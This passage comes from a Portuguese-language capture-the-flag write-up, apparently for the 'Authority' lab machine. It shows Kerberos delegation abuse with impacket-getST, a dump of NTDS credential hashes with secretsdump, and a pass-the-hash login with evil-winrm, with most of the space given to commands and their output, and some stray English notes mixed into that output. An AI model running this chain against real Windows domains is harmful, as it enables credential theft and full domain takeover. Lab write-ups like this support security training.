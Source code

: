         Impersonar o TGT
        
        `impacket-getST -spn 'cifs/AUTHORITY.authority.htb' -impersonate Administrator
        'authority.htb/EVIL01$:Str0ng3st_P@ssw0rd!'`
        
        ```
        impacket-getST -spn 'cifs/AUTHORITY.authority.htb' -impersonate Administrator
        'authority.htb/EVIL01$:Str0ng3st_P@ssw0rd!'
        Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra
        [-] CCache file is not found. Skipping...
        [*] Getting TGT for user
        [*] Impersonating Administrator
        [*] Requesting S4U2self
        [*] Requesting S4U2Proxy
        [*] Saving ticket in Administrator.ccache
        Now we can dump all the hashes.
        Finally, we can use the NT hash to pass-the-hash to the Domain Controller host and win-rm as 
        administrator :
        The root flag can be found at C:\Users\Administrator\Desktop\root.txt .
        export KRB5CCNAME=Administrator.ccache
        ```
        
        Fazer o dump das Hashs
        
        `impacket-secretsdump -k -no-pass authority.htb/Administrator@authority.authority.htb -just-dc-ntlm`
        
        ```
        impacket-secretsdump -k -no-pass authority.htb/Administrator@authority.authority.htb -just-dc-ntlm
        Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra
        [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
        [*] Using the DRSUAPI method to get NTDS.DIT secrets
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4
        ed:::
        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
        svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1::
        :
        AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:815fe0602456b443c45ac1b507d4684d
        :::
        [*] Cleaning up...
        ```
        
        Hash de administrador
        
        `Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::`
        
        Login 
        
        `evil-winrm -i 10.10.11.222 -u administrator -H 6961f422924da90a6928197429eea4ed`
        
    
- Certipy 3
    
    Vamos tentar identificar possíveis configurações incorretas dentro da Autoridade de Certificação. Vamos usar o certipy para encontrar quaisquer vulnerabilidades que possam existir.
    